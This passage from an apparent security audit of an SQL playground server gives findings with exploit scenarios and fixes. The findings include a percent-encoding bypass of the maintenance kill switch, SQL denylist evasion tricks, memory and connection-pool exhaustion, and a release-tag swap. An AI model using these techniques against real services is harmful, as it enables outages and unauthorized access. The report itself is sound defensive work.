- **Fix:** Before invoking splitQuery in splitMariaDbStatements (and in splitScriptWithDelimiters in web/src/utils/sql-statement.ts), validate any line matching /^\s*DELIMITER[ \t]+([^\r\n]+)/i and reject delimiters longer than a strict cap (e.g., 16 characters, or containing control characters) with ApiError(400, 'INVALID_DELIMITER', 'DELIMITER exceeds maximum allowed length of 16 characters'). *(Fix risk: `low`; manual action required: No.)*
- **Status:** Fixed in `db9569c` — Enforced a 16-character limit and control-character check on custom DELIMITER directives in splitMariaDbStatements (400 INVALID_DELIMITER) and web splitScriptWithDelimiters.

<!-- Medium Severity (10) -->

### [MEDIUM] API-004 — Concurrent 6-7 MB /import bodies are buffered before the byte budget is checked; per-IP limiter counts requests, not concurrency

- **Location:** `server/src/app.ts:273-304`, `server/src/app.ts:45-47,127-131`, `deploy/docker-compose.yml:49`
- **Layer:** `api` | **CWE:** CWE-770 | **OWASP:** A04:2021 | **Confidence:** `likely`
- **Verdict:** Confirmed
- **Description:** Confirmed in server/src/app.ts:127-131,273-304: /import sets bodyLimit=7 MB and only enforces the 30 MB/h byte budget in preHandler after Fastify buffers and JSON-parses the full body (even for nonexistent wsIds), with no in-flight concurrency semaphore and no explicit requestTimeout / connectionTimeout against a 192 MB container mem_limit. **Preconditions:** Unauthenticated, needs only network access and ~100 MB of attacker upload per attempt. Effect depends on real Node baseline RSS in the container; not reproduced in a container with the exact 192 MB cgroup limit.
- **Evidence:**
  ```text
  app.ts:276-290  bodyLimit: IMPORT_BODY_LIMIT_BYTES (7 MB); rateLimit { max: 20, timeWindow: '1 hour' }; preHandler: const bytes = Buffer.byteLength(req.body.sql,'utf8'); ... importByteBudget.consume(key, bytes)
  The rate limiter runs in onRequest (counts the request), the body is then fully received and JSON-parsed (7 MB Buffer + parsed 6 MB string per request), and only afterwards does preHandler apply the 30 MB/h byte budget. Nothing limits concurrent in-flight uploads; there is no connectionTimeout / maxRequestsPerSocket / server.maxConnections set in buildApp.
  Measured (server/dist, mock DB, 10 concurrent POST /import with ~6 MB bodies via app.inject, rate limit disabled to mimic the per-hour counter not capping concurrency): baseline RSS 102 MB -> end RSS 232 MB (container limit is 192 MB). The harness holds its own payload copy so this is an upper bound, but the per-request retained memory is plausibly 10+ MB.
  ```
- **Exploit scenario:** Attacker opens ~10-20 simultaneous POST /api/workspaces/<any 8-64 char [a-z2-7] id>/import requests, each with a ~6.5 MB JSON body (wsId need not exist: params schema only checks the pattern; the 404 happens after the body is parsed). The per-IP 20/h limit permits up to 20 such requests from one client, and slow-dripping the bodies keeps them resident for up to Node's default request timeout. The process holds 10+ x (7 MB buffer + parsed string) at once and is OOM-killed by the 192 MB container limit, dropping all workspaces. Repeats every hour per client key; trivially multiplied with more source IPs.
- **Fix:** Reject early before buffering: add an `onRequest`/`preParsing` hook for /import that checks `content-length` against a global concurrency semaphore (e.g. max 2 in-flight imports process-wide, 1 per client key) and returns 429/503 when exceeded. Also set `connectionTimeout`, `keepAliveTimeout`, and `requestTimeout` explicitly (e.g. 30 s for body receipt) and `server.maxConnections`. Validate the wsId exists in an onRequest hook before reading the body. *(Fix risk: `low`; manual action required: No.)*
- **Status:** Fixed in `e72cb06` — Added /import onRequest guard validating Content-Length and workspace existence before buffering, global (2) and per-client (1) in-flight import concurrency caps, and explicit Fastify timeouts/maxConnections.

### [MEDIUM] AUTHZ-001 — Asymmetric ownerIpHash enforcement and default-allow fallback across workspace routes

- **Location:** `server/src/app.ts:238-370`, `server/src/workspace-manager.ts:179-192`, `server/src/workspace-manager.ts:460-518`, `server/src/workspace-manager.ts:637-640`, `server/src/workspace-manager.ts:211-215`, `server/src/workspace-manager.ts:460-501`, `server/src/workspace-manager.ts:503-518`, `server/src/app.ts:347-370`
- **Layer:** `authz` | **CWE:** CWE-639 | **OWASP:** A01:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed — merged duplicate(s): `AUTHN-003`
- **Description:** Confirmed in server/src/app.ts:238-370 and server/src/workspace-manager.ts:460-518: POST /close checks ownerIpHash (403 on mismatch) while DELETE /api/workspaces/:wsId omits expectedOwnerIpHash (exact same teardown), other :wsId routes omit ownership checks, deleteWorkspace defaults to allow if ws.ownerIpHash is falsy, and resetWorkspace does not rotate wsId. Deferred for product/API decision because unifying ownership (cookie binding vs uniform IP enforcement vs wsId rotation on reset) changes the public API contract and roaming/NAT UX. Merged with AUTHN-003. **Preconditions:** Attacker must obtain a live victim wsId (128-bit random base32 token, 2 h idle / 12 h max TTL) via URL/proxy/application logs, shared screenshots/traces, or client-side exposure. Users sharing a NAT/CGNAT IPv4 or IPv6 /64 prefix already share the same ownerIpHash.
- **Evidence:**
  ```text
  // server/src/app.ts:347-370
  app.post<{ Params: { wsId: string } }>('/api/workspaces/:wsId/close', ..., async (req) => {
    const callerIpHash = ipHasher.key(req.ip || 'unknown');
    await workspaceManager.deleteWorkspace(req.params.wsId, undefined, callerIpHash);
    return { ok: true };
  });

  app.delete<{ Params: { wsId: string } }>('/api/workspaces/:wsId', ..., async (req) => {
    await workspaceManager.deleteWorkspace(req.params.wsId);
    return { ok: true };
  });

  // server/src/workspace-manager.ts:512-518
  if (
    expectedOwnerIpHash !== undefined &&
    ws.ownerIpHash &&
    ws.ownerIpHash !== expectedOwnerIpHash
  ) {
    throw new ApiError(403, 'FORBIDDEN', 'Workspace does not belong to this client');
  }
  ```
- **Exploit scenario:** 1. A victim creates a workspace via POST /api/workspaces, storing ownerIpHash on WorkspaceEntry and receiving a wsId used in URL paths (/api/workspaces/:wsId/...) and logged in plaintext by Pino (req.url and { wsId } in app.ts:263,312) and reverse-proxy access logs.
2. An attacker on a different IP obtains the active wsId (e.g., from shared logs, HAR/DevTools capture, shoulder-surfing, or browser/proxy telemetry).
3. Sending POST /api/workspaces/:wsId/close is rejected with 403 FORBIDDEN because callerIpHash does not match ws.ownerIpHash.
4. The attacker immediately bypasses this ownership check by calling DELETE /api/workspaces/:wsId (exact same teardown, no ownerIpHash passed), POST /api/workspaces/:wsId/exec (read/modify all workspace data), POST /api/workspaces/:wsId/import, POST /api/workspaces/:wsId/reset, GET /api/workspaces/:wsId/schema, or POST /api/workspaces/:wsId/sessions/A/kill. Additionally, if ws.ownerIpHash is ever undefined (permitted by its optional type), deleteWorkspace silently defaults to allow.
- **Fix:** Adopt a consistent ownership authorization model across all seven :wsId routes (DELETE, /close, /reset, /exec, /import, /schema, /sessions/:session/kill). Prefer issuing a per-workspace HttpOnly, Secure, SameSite=Strict session cookie (bound to wsId via HMAC) on POST /api/workspaces and verifying it on every :wsId route (so legitimate roaming/mobile IP changes still work while leaked URLs or cross-origin requests cannot access or destroy workspaces). If IP-key ownership is retained instead, pass callerIpHash on all :wsId routes and make the check fail-closed (`if (!ws.ownerIpHash || ws.ownerIpHash !== expectedOwnerIpHash)`), returning 404 or 403 consistently. *(Fix risk: `medium`; manual action required: No.)*
- **Status:** Deferred — needs decision (requires product/API contract decision on uniform workspace ownership model (HMAC-bound session cookie vs uniform IP enforcement and wsId rotation on reset) and roaming/NAT UX impact)

### [MEDIUM] AUTHZ-002 — MAINTENANCE=1 API kill switch bypassed via URL percent-encoding (/%61pi/...)

- **Location:** `server/src/app.ts:135-149`, `server/src/static.ts:51-55`, `server/src/static.ts:91,102`
- **Layer:** `authz` | **CWE:** CWE-863 | **OWASP:** A01:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed — merged duplicate(s): `API-003`
- **Description:** Reproduced directly against built server/dist/app.js with MAINTENANCE=1: GET /api/datasets returned 503 MAINTENANCE, while GET /%61pi/datasets returned 200 with full dataset list because onRequest checks raw req.url before Fastify decodes the route. Also verified GET /%61pi/nonexistent returns 200 index.html instead of JSON 404 due to rawPath check in server/src/static.ts:52-55 (same rawPath pattern affects /assets/ checks at static.ts:91,102). Merged with API-003. **Preconditions:** Application is running with MAINTENANCE=1, accessed directly or behind a reverse proxy (such as default nginx `proxy_pass http://127.0.0.1:5050;` without a URI component) that forwards percent-encoded path bytes verbatim.
- **Evidence:**
  ```text
  // server/src/app.ts:135-149
  if (config.MAINTENANCE) {
    app.addHook('onRequest', async (req, reply) => {
      const pathOnly = req.url.split('?')[0] ?? '/';
      if ((pathOnly === '/api' || pathOnly.startsWith('/api/')) && pathOnly !== '/api/health') {
        return reply
          .code(503)
          .send(formatApiError('MAINTENANCE', 'SQL Scratchpad is temporarily down for maintenance. Please try again shortly.'));
      }
    });
  }

  // Verified via app.inject against built server/dist/app.js with MAINTENANCE=1:
  // GET  /api/datasets      -> 503 MAINTENANCE
  // GET  /%61pi/datasets    -> 200 [{"id":"sample-library",...}]
  // POST /api/workspaces    -> 503 MAINTENANCE
  // POST /%61pi/workspaces  -> reaches route handler (bypasses 503)
  ```
- **Exploit scenario:** 1. An operator enables MAINTENANCE=1 (soft kill switch documented in docs/SELF-HOSTING.md) to halt all workspace creation, SQL execution, and imports during an incident or DB maintenance while keeping /api/health and the static UI online.
2. An unauthenticated remote client percent-encodes any character in the `/api` prefix — e.g., sending `POST /%61pi/workspaces`, `POST /%61pi/workspaces/:wsId/exec`, `POST /%61pi/workspaces/:wsId/import`, or `GET /%61pi/datasets`.
3. The `onRequest` hook checks raw `req.url` (`/%61pi/...`), which does not start with `/api/`, so it allows the request through.
4. Fastify's router (`find-my-way`) percent-decodes `/%61pi/...` to `/api/...` and executes the matched API handler normally, completely bypassing the maintenance lock. Similarly, in `server/src/static.ts:52-55`, `rawPath.startsWith('/api/')` runs before `decodeURIComponent`, so `GET /%61pi/nonexistent` falls through to `200 index.html` instead of returning JSON `404`.
- **Fix:** In `server/src/app.ts:135-149`, check both Fastify's canonical matched route (`req.routeOptions?.url`) AND the percent-decoded path: reject malformed percent-encoding with `400`, decode `pathOnly` via `decodeURIComponent`, and block whenever either `decodedPath === '/api' || decodedPath.startsWith('/api/')` (and `!== '/api/health'`) OR `(req.routeOptions?.url?.startsWith('/api') && req.routeOptions.url !== '/api/health')`. In `server/src/static.ts:52-66`, perform `decodeURIComponent` before checking `decodedPath === '/api' || decodedPath.startsWith('/api/')`. *(Fix risk: `low`; manual action required: No.)*
- **Status:** Fixed in `c56f0a2` — Decoded percent-encoded URL paths before checking /api and /assets prefixes in both the MAINTENANCE=1 onRequest hook and static SPA handler, rejecting malformed encoding with 400.

### [MEDIUM] CICD-001 — Release workflow checks out mutable tag ref without commit-SHA pinning, main-ancestry check, tag ruleset, or environment gate

- **Location:** `.github/workflows/release.yml:16-55`, `.github/workflows/ci.yml:7-13`, `.github/workflows/ci.yml:41-45`, `.github/workflows/ci.yml:124-128`
- **Layer:** `cicd` | **CWE:** CWE-367 | **OWASP:** A08:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed
- **Description:** Confirmed in .github/workflows/release.yml:16-55 (mutable ref: refs/tags/${{ github.ref_name }} passed to both ci and publish without main-ancestry verification) and independently verified via GitHub API: zero tag rulesets and environments.total_count == 0. Workflow SHA pinning and main ancestry check can be fixed directly in-repo; GitHub Environment & tag ruleset require manual setup. **Preconditions:** Attacker has write/push access to hexawulf/sql-scratchpad (e.g., compromised collaborator account, automation token, or PAT with contents:write).
- **Evidence:**
  ```text
  In .github/workflows/release.yml:
    ci:
      uses: ./.github/workflows/ci.yml
      with:
        ref: refs/tags/${{ github.ref_name }}
    publish:
      if: github.repository == 'hexawulf/sql-scratchpad'
      needs: [ci]
      steps:
        - name: Checkout tagged commit
          uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1 # v7.0.1
          with:
            ref: refs/tags/${{ github.ref_name }}
            persist-credentials: false
  Lines 36-54 validate only that TAG matches ^v[0-9]+\.[0-9]+\.[0-9]+$ and matches package.json version; they do not verify that the tagged commit is an ancestor of main. GitHub API inspection confirms only one ruleset exists (protect-main, target: branch, ~DEFAULT_BRANCH) with zero tag rulesets and zero deployment environments (environments.total_count == 0), while DOCKERHUB_USERNAME and DOCKERHUB_TOKEN are stored as repository-level secrets.
  ```
- **Exploit scenario:** 1. Bypassing protect-main: An attacker with repository write/push permission (or a compromised token with contents:write) commits a backdoor and bumps package.json version on an unreviewed branch, then pushes tag v0.3.8. Because no tag ruleset restricts v*.*.* creation and release.yml never checks main ancestry, release.yml builds and publishes the unreviewed multi-arch images to Docker Hub (including overwriting the :latest tag via flavor: latest=auto) using repository-level DOCKERHUB_TOKEN with no environment approval.
2. TOCTOU tag swap: Even if malicious code would fail CI tests, the attacker tags a clean commit as v0.3.8. While the ci job runs (several minutes for MariaDB integration and Playwright E2E), the attacker force-updates refs/tags/v0.3.8 to a malicious commit. When publish starts after ci passes, actions/checkout resolves the mutable ref refs/tags/${{ github.ref_name }} anew and publishes the untested malicious commit.
- **Fix:** 1. In .github/workflows/release.yml, pass ref: ${{ github.sha }} to both the reusable ci workflow and publish's actions/checkout step so both jobs run on the exact immutable commit SHA that triggered the event.
2. Add a verification step in publish that fetches origin/main and asserts git merge-base --is-ancestor "${GITHUB_SHA}" origin/main.
3. Create a protected GitHub Environment (e.g. release) restricted to tags matching v*.*.* with required reviewers, move DOCKERHUB_USERNAME and DOCKERHUB_TOKEN from repository secrets to that environment, and reference environment: release in the publish job.
4. Create a GitHub Tag Ruleset protecting v*.*.* against deletion and non-fast-forward/force updates. *(Fix risk: `low`; manual action required: Yes.)*
- **Status:** Fixed in `5be9a2f` — Pinned release.yml reusable CI and publish checkouts to immutable github.sha, verified HEAD matches github.sha, and enforced origin/main ancestry before publishing (GitHub Environment & tag ruleset remain manual actions). *(code changes tracked via Phase 4 commit; manual GitHub Environment & tag ruleset setup also required — see Section 1)*

### [MEDIUM] CICD-002 — Over-privileged repository-wide DOCKERHUB_TOKEN shared with third-party dockerhub-description action in the publish job

- **Location:** `.github/workflows/release.yml:100-154`
- **Layer:** `cicd` | **CWE:** CWE-250 | **OWASP:** A08:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed
- **Description:** Confirmed in .github/workflows/release.yml:100-154: repository-level DOCKERHUB_TOKEN is shared between docker/login-action and peter-evans/dockerhub-description (which requires Read/Write/Delete or account password scope). Requires creating scoped Docker Hub PATs and moving secrets into a protected GitHub Environment outside the repo. **Preconditions:** Compromise of peter-evans/dockerhub-description (e.g., via a future SHA update), compromise of a step inside the publish job, or unauthorized access to repository-level Actions secrets.
- **Evidence:**
  ```text
  In .github/workflows/release.yml:
    - name: Log in to Docker Hub
      uses: docker/login-action@8aa5831fb8d48d8f76594c7ddde61ae58019f550 # v4.8.0
      with:
        username: ${{ secrets.DOCKERHUB_USERNAME }}
        password: ${{ secrets.DOCKERHUB_TOKEN }}
    ...
    - name: Sync Docker Hub description (app)
      uses: peter-evans/dockerhub-description@1b9a80c056b620d92cedb9d9b5a223409c68ddfa # v5.0.0
      with:
        username: ${{ secrets.DOCKERHUB_USERNAME }}
        password: ${{ secrets.DOCKERHUB_TOKEN }}
        repository: 0xwulf/sql-scratchpad
  Inspecting peter-evans/dockerhub-description@1b9a80c056b620d92cedb9d9b5a223409c68ddfa action.yml confirms password requires a 'Docker Hub password or Personal Access Token with read/write/delete scope'. Recent release workflow run 45101036336 succeeded on both description-sync steps, confirming DOCKERHUB_TOKEN holds elevated Read/Write/Delete (or account password) privilege rather than minimal Read/Write image-push scope, and is stored as a repository-wide secret exposed to all workflows.
  ```
- **Exploit scenario:** 1. Because DOCKERHUB_TOKEN is reused for both image pushing and Docker Hub README updates, the token must possess Read/Write/Delete (or full account) permissions across the 0xwulf Docker Hub namespace.
2. If a future Dependabot SHA update to peter-evans/dockerhub-description (or a compromised build dependency/action in the same job while ~/.docker/config.json remains logged in prior to the post-step logout) exfiltrates DOCKERHUB_TOKEN, or if any other repository workflow accesses the repository-level secret, the attacker can not only push backdoored images to 0xwulf/sql-scratchpad and 0xwulf/sql-scratchpad-db, but also permanently delete image tags or overwrite unrelated repositories under the same Docker Hub account.
- **Fix:** 1. Replace DOCKERHUB_TOKEN used by docker/login-action with a least-privilege Read & Write-only Docker Hub PAT (or repo-scoped Organization Access Token limited to 0xwulf/sql-scratchpad and 0xwulf/sql-scratchpad-db) and move it into a protected GitHub Environment.
2. Isolate README syncing into a separate job (sync-description, needs: [publish]) with its own dedicated secret if automated syncing is retained, or remove peter-evans/dockerhub-description if Docker Hub requires a Read/Write/Delete PAT for description updates. *(Fix risk: `low`; manual action required: Yes.)*
- **Status:** Manual action (requires external GitHub repository settings or post-release registry digest update)

### [MEDIUM] CICD-003 — protect-main ruleset enforces no required CI status checks, CODEOWNERS is missing, and Actions SHA-pinning policy is disabled

- **Location:** `.github/workflows/ci.yml:22-24`, `.github/workflows/ci.yml:105-107`
- **Layer:** `cicd` | **CWE:** CWE-284 | **OWASP:** A08:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed
- **Description:** Independently confirmed via GitHub API: ruleset protect-main (id 27815727) has no required CI status checks, .github/CODEOWNERS is absent, and repository Actions permissions show allowed_actions='all' and sha_pinning_required=false. Enforcing required status checks, code-owner review, and SHA pinning requires manual GitHub repository settings changes. **Preconditions:** A user or automation with merge privileges merges a PR before CI passes or approves a PR modifying workflows/security code without owner review.
- **Evidence:**
  ```text
  GitHub API inspection of ruleset protect-main (id: 27815727) shows rules limited to deletion, non_fast_forward, and pull_request with required_approving_review_count: 0, dismiss_stale_reviews_on_push: false, and require_code_owner_review: false, with NO required_status_checks rule. Repository tree confirms .github/CODEOWNERS does not exist. GitHub Actions permissions API returns allowed_actions: "all" and sha_pinning_required: false.
  ```
- **Exploit scenario:** 1. A pull request (from an external contributor, Dependabot, or an automated agent) that breaks MariaDB workspace isolation, fails hostile.int.test.ts, or modifies .github/workflows/release.yml to introduce an unpinned third-party action can be merged into main while CI is failing or still running because protect-main defines no required_status_checks.
2. Without .github/CODEOWNERS and require_code_owner_review, changes to security-critical paths (.github/workflows/*, db/*, server/src/*, Dockerfile) do not automatically trigger mandatory owner review, and without sha_pinning_required: true, GitHub will execute newly added tag-pinned actions rather than rejecting them at workflow start.
- **Fix:** 1. Add .github/CODEOWNERS covering * and explicitly marking /.github/, /db/, /server/src/, and /Dockerfile for owner review.
2. Update the protect-main ruleset to add required_status_checks requiring 'Lint, Build, Unit & Integration Tests' and 'E2E Tests (Playwright Chromium)' with strict up-to-date branch checks enabled, plus dismiss_stale_reviews_on_push and require_code_owner_review.
3. Enable sha_pinning_required: true in Repository Settings -> Actions -> General (and restrict allowed_actions if feasible). *(Fix risk: `low`; manual action required: Yes.)*
- **Status:** Manual action (requires external GitHub repository settings or post-release registry digest update)

### [MEDIUM] INJECTION-004 — Pre-flight SQL denylist bypass via backtick identifiers, MariaDB /*M!*/ comments, dynamic SQL, and NO_BACKSLASH_ESCAPES

- **Location:** `server/src/exec-engine.ts:26-104`, `server/src/exec-engine.ts:139-147`, `server/src/exec-engine.ts:179-249`, `server/src/import-engine.ts:96-103`, `web/src/utils/sql-statement.ts:174-242`
- **Layer:** `injection` | **CWE:** CWE-436 | **OWASP:** A03:2021 | **Confidence:** `confirmed`
- **Verdict:** Confirmed
- **Description:** All four denylist bypasses reproduced directly against built server/dist/exec-engine.js (backtick-quoted identifier containing quote/comment, MariaDB /*M!*/ executable comments, EXECUTE IMMEDIATE/PREPARE dynamic SQL, and NO_BACKSLASH_ESCAPES trailing backslash): each returned null (allowed) while baseline BENCHMARK() was denied. MariaDB ws_<hex> privileges still block admin/file ops, but BENCHMARK() has no DB-layer privilege guard. **Preconditions:** Publicly accessible /api/workspaces/:wsId/exec or /api/workspaces/:wsId/import endpoints (no authentication required).
- **Evidence:**
  ```text
  // Block comment /* ... */ (keep executable /*! ... */ content inspectable)
  if (ch === '/' && next === '*') {
    if (i + 2 < n && sql[i + 2] === '!') {
      // MariaDB conditional comment: inspect inner tokens
      ...
    }
    // /*M! ... */ falls through and is stripped as an inert block comment
  }
  // Single-quoted or double-quoted string literal (backtick identifiers are not handled)
  if (ch === "'" || ch === '"') {
    ...
    if (sql[i] === '\\' && i + 1 < n) { i += 2; continue; }
  }
  ```
- **Exploit scenario:** An unauthenticated user can bypass checkDenylist on both /exec and /import through four independent parser/MariaDB interpretation mismatches, all verified directly against built server/dist/exec-engine.js (returning denied: false while baseline BENCHMARK/GRANT returns denied: true): (1) Backtick-quoted identifiers are not tokenized in stripCommentsAndLiterals, so a legal MariaDB backtick alias containing a quote or comment starter (single quote, /*, #, or -- ) puts the scanner into string/comment state and hides all subsequent tokens from checkDenylist. (2) MariaDB-specific executable comments (/*M! ... */ and /*M!###### ... */) are stripped as non-executable block comments because only sql[i+2] === '!' is checked. (3) Dynamic SQL via PREPARE/EXECUTE or MariaDB EXECUTE IMMEDIATE is not in DENYLIST_RULES and constructs blocked keywords inside string literals that stripCommentsAndLiterals removes. (4) Enabling SET SESSION sql_mode = 'NO_BACKSLASH_ESCAPES' on the pinned session makes a trailing backslash inside a string literal non-escaping in MariaDB while stripCommentsAndLiterals still treats it as escaping the closing quote, swallowing subsequent SQL. Defense-in-depth note: MariaDB's unprivileged ws_<hex> account and server flags (local_infile=0, secure_file_priv) still block GRANT, FILE I/O, SHUTDOWN, SET GLOBAL, and USE other_db at the database layer; however, BENCHMARK() has no MariaDB privilege restriction and executes directly, allowing sustained CPU exhaustion up to the 5 s MAX_STATEMENT_TIME cap across 2 sessions x 6 workspaces (12 concurrent CPU-pegging threads per IP).
- **Fix:** 1. Tokenize backtick-quoted identifiers (`...` with `` doubling and no backslash escaping) in stripCommentsAndLiterals (server/src/exec-engine.ts and web/src/utils/sql-statement.ts) so characters inside backticks cannot initiate string or comment states. 2. Treat MariaDB executable comments (/*M! followed by optional digits) identically to /*! in stripCommentsAndLiterals, stripLeadingNonConditionalComments, stripLeadingComments, and web/src/utils/sql-statement.ts. 3. Run denylist regexes against two stripped views of the SQL — one treating backslash as an escape character and one without backslash escaping (matching NO_BACKSLASH_ESCAPES) — and deny if either matches. 4. Add PREPARE and EXECUTE IMMEDIATE (and @@PERSIST./@@PERSIST_ONLY.) to DENYLIST_RULES if dynamic SQL is not required in the playground. *(Fix risk: `low`; manual action required: No.)*
- **Status:** Fixed in `d1ee6f7` — Tokenized backtick identifiers and MariaDB /*M!*/ comments in stripCommentsAndLiterals and web sql-statement stripping, added dual-mode NO_BACKSLASH_ESCAPES denylist checking, and blocked PREPARE/EXECUTE IMMEDIATE and @@PERSIST.

### [MEDIUM] LOGIC-002 — TOCTOU race in createWorkspace lets concurrent requests exceed MAX_WORKSPACES_PER_IP, MAX_WORKSPACES and the total-storage check

- **Location:** `server/src/workspace-manager.ts:253-289`, `server/src/workspace-manager.ts:296-306`, `server/src/workspace-manager.ts:327`
- **Layer:** `logic` | **CWE:** CWE-367 | **OWASP:** A04:2021 | **Confidence:** `likely`
- **Verdict:** Confirmed
- **Description:** Confirmed in server/src/workspace-manager.ts:253-327: ownedCount, this.workspaces.size, and getTotalWorkspaceBytes() are checked before multiple async DB round trips (provisionDbAndUser, cloneTemplate), while this.workspaces.set(wsId, entry) occurs only at line 327 with no synchronous reservation. **Preconditions:** Unauthenticated network access. Burst size bounded by the 20/h per-key creation rate limit, so more source IPs/prefixes are needed to cross the global cap.
- **Evidence:**
  ```text
  if (ownedCount >= this.config.MAX_WORKSPACES_PER_IP) throw ...;   // reads this.workspaces
  if (this.workspaces.size >= this.config.MAX_WORKSPACES) throw ...;
  const totalBytes = await this.getTotalWorkspaceBytes();
  ...
  await this.provisionDbAndUser(database, dbUser, password);
  if (datasetId !== 'empty') await this.cloneTemplate(...);
  ...
  this.workspaces.set(wsId, entry);   // only after all those awaits
  The count checks and the Map insertion are separated by several database round trips (information_schema size scan, CREATE DATABASE/USER/GRANT, table-by-table clone). Nothing reserves a slot in between.
  ```
- **Exploit scenario:** 1. From one IP the attacker fires 20 concurrent POST /api/workspaces (the rate limit allows 20 per hour). 2. Each handler evaluates ownedCount against a Map that is still empty, so all pass the 6-per-IP cap and all provision. The IP ends up owning up to 20 workspaces. 3. With a few source IPs (or several IPv6 /64 prefixes) the total goes well past MAX_WORKSPACES=50 (for example 5 IPs x 20 = 100). 4. Each workspace opens up to 2 pinned MariaDB sessions; with max_connections=150 shared with the 10-connection admin pool, more than about 70 workspaces causes ER_CON_COUNT_ERROR for other users and the admin pool, and the clone work saturates the admin pool. The same window defeats the 1 GB total-storage check, since many creations all read the pre-burst total.
- **Fix:** Reserve capacity synchronously before the first await: keep a per-owner and global 'pending' counter (or insert a placeholder entry with state 'provisioning' into this.workspaces right after the checks, counting it in ownedCount and size) and remove it in the catch block. Alternatively serialise createWorkspace through a promise mutex. Re-check the storage budget after reservation. Add a concurrency test (Promise.all of 10 creates with MAX_WORKSPACES_PER_IP=2 expecting exactly 2 successes). *(Fix risk: `low`; manual action required: No.)*
- **Status:** Fixed in `4fc056c` — Added synchronous pendingTotal and pendingByOwner capacity reservations in WorkspaceManager.createWorkspace before async DB provisioning.

### [MEDIUM] LOGIC-003 — Per-workspace disk cap is enforced only by a 5-minute janitor that skips busy workspaces, so writes are effectively unbounded

- **Location:** `server/src/workspace-manager.ts:729-737`, `server/src/workspace-manager.ts:789-812`, `server/src/workspace-manager.ts:286-289`, `server/src/workspace-manager.ts:855-857`, `server/src/app.ts:127-131`
- **Layer:** `logic` | **CWE:** CWE-770 | **OWASP:** A04:2021 | **Confidence:** `likely`
- **Verdict:** Confirmed
- **Description:** Confirmed in server/src/workspace-manager.ts:729-737,789-812: the 50 MB per-workspace size cap is checked only on the 5-minute janitor sweep and deferred whenever isWorkspaceBusy(ws) is true, while the 1 GB total storage check runs only at workspace creation time. **Preconditions:** Unauthenticated network access; workspace creation is allowed by default. Disk fill speed depends on host IO; the missing real-time cap is certain from the code.
- **Evidence:**
  ```text
  // 3. Per-workspace 50 MB size cap — skip busy workspaces
  if (bytes > this.config.MAX_WORKSPACE_BYTES) {
    if (this.isWorkspaceBusy(ws)) { this.logger.info(..., 'Oversized workspace has busy session; deferring truncation to next sweep'); continue; }
    ... await this.resetWorkspace(...)
  Same busy-skip for the expiry step (729-737). The janitor runs every JANITOR_INTERVAL_MS = 5 min. The only other storage check is the total-bytes test at create time (286-289). No MariaDB-side quota exists: the GRANT/CREATE USER set connection, query and statement-time limits only. The Fastify server sets no response/request timeout, and a handler keeps running after the client disconnects.
  ```
- **Exploit scenario:** 1. Attacker creates up to 6 workspaces (see LOGIC-002 for more). 2. In each, one POST /exec carries up to 256 KB of statements with stopOnError=false, for example repeated INSERT INTO t SELECT ... FROM t a, t b (each statement runs up to 5 s and can write tens of MB). The handler has no wall-clock limit, so the request keeps the session busy for hours. 3. The janitor sees isWorkspaceBusy() true on every sweep and logs 'deferring truncation' forever, so neither the 50 MB cap nor the 2 h / 12 h TTLs are applied while the request runs; even without a long request, up to 5 minutes of unchecked writes happen between sweeps. 4. The MariaDB data volume fills; the 1 GB total check only blocks new workspaces and never stops writes in existing ones. All tenants then fail on disk-full errors. Not executed (no MariaDB available).
- **Fix:** Enforce the cap in the database, not only after the fact: run the size check from the exec/import path before each batch and between statements (cheap query on the workspace's own schema), and abort with a 507-style error; and make the janitor interrupt busy over-cap or expired workspaces (KILL QUERY via the existing teardown path, which already aborts and waits for sessions) instead of skipping them. Add a hard per-request wall-clock limit for /exec (for example 30 s, stop between statements). Consider a separate volume or XFS/ext4 project quota for the data dir. *(Fix risk: `medium`; manual action required: No.)*
- **Status:** Fixed in `6f7204c` — Added in-path information_schema size checks in ExecEngine (507 WORKSPACE_STORAGE_LIMIT) and ImportEngine, and updated janitor to interrupt and reset busy oversized workspaces.

### [MEDIUM] LOGIC-004 — Shared 10-connection admin pool with unbounded queue is starved by /schema (6 parallel pool queries per request) and information_schema scans

- **Location:** `server/src/db.ts:5-17`, `server/src/schema-introspector.ts:57-127`, `server/src/app.ts:322-333`, `server/src/workspace-manager.ts:286-289`, `server/src/workspace-manager.ts:817-838`, `server/src/db.ts:4-18`
- **Layer:** `logic` | **CWE:** CWE-400 | **OWASP:** A04:2021 | **Confidence:** `likely`
- **Verdict:** Confirmed — merged duplicate(s): `AUTHZ-003`
- **Description:** Confirmed in server/src/schema-introspector.ts:61-127, server/src/db.ts:5-17, and server/src/app.ts:322-333: GET /schema fires 6 parallel information_schema queries via Promise.all directly on the shared 10-connection privileged adminPool (queueLimit: 0, no acquire timeout) at up to 120 req/min per key, instead of using ws_<hex> or a bounded single-connection / single-flight path. Merged with AUTHZ-003. **Preconditions:** Unauthenticated network access; the heavier the attacker's schema, the smaller the request rate needed.
- **Evidence:**
  ```text
  db.ts: connectionLimit: 10, waitForConnections: true, queueLimit: 0   // unlimited FIFO queue, no acquire timeout
  schema-introspector.ts: const [...] = await Promise.all([ adminPool.query(...TABLES), adminPool.query(...COLUMNS), adminPool.query(...STATISTICS), adminPool.query(...KEY_COLUMN_USAGE JOIN REFERENTIAL_CONSTRAINTS), adminPool.query(...TRIGGERS), adminPool.query(...VIEWS) ]);
  app.ts: GET /api/workspaces/:wsId/schema is allowed 120/min per key and has no per-workspace single-flight.
  Every create, reset, delete, janitor sweep, KILL and /api/health use this same pool.
  ```
- **Exploit scenario:** 1. Attacker fills a workspace with thousands of tables/columns/indexes (allowed within the 50 MB cap and uncapped between janitor sweeps, see LOGIC-003), which makes the information_schema queries take seconds (they are bounded only by the global max_statement_time = 10). 2. They loop GET /schema at the allowed 2 requests/s. Each request takes 6 of the 10 pool connections for the full query time. 3. The pool is permanently exhausted and the queue grows without limit. POST /workspaces, reset, DELETE, KILL QUERY (used to stop runaway queries), the janitor and /api/health (so the container health state) all hang behind it. getTotalWorkspaceBytes() on every create also scans information_schema across all ws_% schemas, so the attacker's schema bloat slows other users' creates. Not run against a real DB; the pool mechanics are certain, the query duration is an estimate.
